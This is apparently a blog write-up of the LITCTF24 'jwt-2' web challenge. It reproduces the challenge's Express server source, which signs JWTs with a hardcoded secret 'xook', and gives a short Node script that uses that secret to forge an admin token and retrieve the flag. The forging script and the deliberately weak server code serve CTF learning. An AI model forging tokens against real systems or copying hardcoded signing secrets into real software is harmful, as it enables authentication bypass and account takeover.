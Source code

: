 ```yaml
---
title: "LITCTF24 - Jwt 2"
date: 2024-08-13T18:49:06+01:00
tags: ["ctf", "write-up"]
author: "hxuu"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CTF write-up for Jwt 2"
canonicalURL: ""
disableHLJS: false
disableShare: false
hideSummary: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
editPost:
    URL: "https://github.com/hxuu/content"
    Text: "Suggest Changes"
    appendFilePath: true
---
```


## Challenge Description

```
name: jwt-2
category: web
points: 117
```

its like jwt-1 but this one is harder URL: http://litctf.org:31777/

## Solution

The description is very clear, the vulnerability should be in how the signature
is handled, but instead of no verification at all, we should expect something harder
this time.

My first hunch tells me to brute force the key used to generate the jwt token, but
we're actually given the source code.

```typescript
import express from "express";
import cookieParser from "cookie-parser";
import path from "path";
import fs from "fs";
import crypto from "crypto";

const accounts: [string, string][] = [];

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;

}

const app = express();

const port = process.env.PORT || 3000;

app.listen(port, () =>
  console.log("server up on http://localhost:" + port.toString())
);

app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));

app.use(express.static(path.join(__dirname, "site")));

app.get("/flag", (req, res) => {
  if (!req.cookies.token) {
    console.log('no auth')
    return res.status(403).send("Unauthorized");
  }

  try {
    const token = req.cookies.token;
    // split up token
    const [header, payload, signature] = token.split(".");
    if (!header || !payload || !signature) {
      return res.status(403).send("Unauthorized");
    }
    Buffer.from(header, "base64").toString();
    // decode payload
    const decodedPayload = Buffer.from(payload, "base64").toString();
    // parse payload
    const parsedPayload = JSON.parse(decodedPayload);
		// verify signature
		const expectedSignature = crypto.createHmac('sha256', jwtSecret).update(header + '.' + payload).digest('base64').replace(/=/g, '');
		if (signature !== expectedSignature) {
			return res.status(403).send('Unauthorized ;)');
		}
    // check if user is admin
    if (parsedPayload.admin || !("name" in parsedPayload)) {
      return res.send(
        fs.readFileSync(path.join(__dirname, "flag.txt"), "utf-8")
      );
    } else {
      return res.status(403).send("Unauthorized");
    }
  } catch {
    return res.status(403).send("Unauthorized");
  }
});

app.post("/login", (req, res) => {
  try {
    const { username, password } = req.body;
    if (!username || !password) {
      return res.status(400).send("Bad Request");
    }
    if (
      accounts.find(
        (account) => account[0] === username && account[1] === password
      )
    ) {
      const token = sign({ name: username, admin: false });
      res.cookie("token", token);
      return res.redirect("/");
    } else {
      return res.status(403).send("Account not found");
    }
  } catch {
    return res.status(400).send("Bad Request");
  }
});


app.post('/signup', (req, res) => {
  try {
    const { username, password } = req.body;
    if (!username || !password) {
      return res.status(400).send('Bad Request');
    }
    if (accounts.find(account => account[0] === username)) {
      return res.status(400).send('Bad Request');
    }
    accounts.push([username, password]);
    const token = sign({ name: username, admin: false });
    res.cookie('token', token);
    return res.redirect('/');
  } catch {
    return res.status(400).send('Bad Request');
  }
});
```

The code creates a JWT-based authentication system using a fixed secret key (`jwtSecret = "xook"`) to sign tokens.

- **Key Use:** The key `"xook"` is used in HMAC SHA-256 to create a signature for the JWT. This signature ensures that the token's integrity can be verified when it's received. If the JWT signature doesn't match the expected signature (generated using the same key), access is denied.

So as you can see, the key is given to us, we just need to extract the code that
creates a valid jwt token from the latter source code, supply the username we used
to access the website, and admin set to True. The code that does that would look something
like this:

```js
const crypto = require('crypto')

// Define the secret key used in signing
const jwtSecret = "xook";

// Function to generate JWT
const sign = (payload) => {
  // Encode the payload to base64
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");

  // Create the JWT header (in base64 format without '=')
  const header = Buffer.from(
    JSON.stringify({ alg: "HS256", typ: "JWT" }),
    "utf-8"
  )
    .toString("base64")
    .replace(/=/g, "");

  // Generate the HMAC SHA-256 signature
  const signature = crypto.createHmac('sha256', jwtSecret)
    .update(header + '.' + jwtPayload)
    .digest('base64')
    .replace(/=/g, '');

  // Return the full JWT token
  return header + "." + jwtPayload + "." + signature;
}

// Test payload
const testPayload = { username: "hxuu", admin: true };

// Generate a token
const token = sign(testPayload);

// Output the generated token
console.log("Generated JWT Token:", token);
```

Running the code above gives a valid token. We just have to replace the cookies given
by the application by our newly crafted token, and then pressing GET FLAG.

![flag](/images/2024-08-13-19-02-45.png)

---

flag is: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`

Things learned:

* how to weak key can result into compromising jwt tokens
